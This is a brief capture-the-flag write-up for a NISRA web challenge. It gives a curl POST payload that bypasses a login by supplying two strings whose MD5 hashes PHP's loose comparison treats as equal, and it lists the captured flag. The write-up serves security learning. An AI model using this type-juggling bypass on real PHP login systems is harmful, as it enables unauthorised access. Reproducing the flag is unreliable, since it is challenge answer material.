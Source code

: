 ```yaml
---
title: NISRA - MD5_2
tags: [NISRA, CTF, Web]

---
```


# NISRA - MD5_2
## Exploit
Payload: `curl http://chall2.nisra.net:41023/ -H "Content-Type: application/x-www-form-urlencoded" -X POST -d "user=240610708&password=QNKCDZO"`
Flag: `NISRA{S3CuR17y_1ssuEs_Of_pHP_@ND_Md5}`
## Reference
[md5('240610708') == md5('QNKCDZO')](https://news.ycombinator.com/item?id=9484757)